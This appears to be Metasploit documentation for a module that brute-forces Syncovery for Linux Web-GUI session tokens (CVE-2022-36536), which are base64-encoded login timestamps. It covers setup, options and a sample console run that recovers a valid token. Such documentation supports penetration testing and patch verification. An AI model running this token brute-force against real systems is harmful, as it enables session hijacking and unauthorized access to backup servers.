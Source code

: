 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force a valid session token for the Syncovery File Sync & Backup Software Web-GUI
by generating all possible tokens, for every second between 'DateTime.now' and the given X day(s).
By default today and yesterday (DAYS = 1) will be checked. If a valid session token is found, the module stops.
The vulnerability exists, because in Syncovery session tokens are basically just `base64(m/d/Y H:M:S)` at the time
of the login instead of a random token.
If a user does not logout, the token stays valid until next reboot. Note that the mobile version of the WEB GUI
as well as the obsolete branch 8 of Syncovery do not have a logout button.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

### Setup

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Options

### TARGETURI
The path to Syncovery login mask.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf > use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536
msf auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > options

Module options (auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DAYS       1                yes       Check today and last X day(s) for valid session token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The path to Syncovery
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > run

[*] 192.168.178.26:8999 - Starting Brute-Forcer
[+] 192.168.178.26:8999 - Valid token found: 'MDkvMDYvMjAyMiAxMzo0NDoxMg=='
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Limitations
In Syncovery v9.x tokens get invalidated after the user logs out. In this case no valid token can be found.
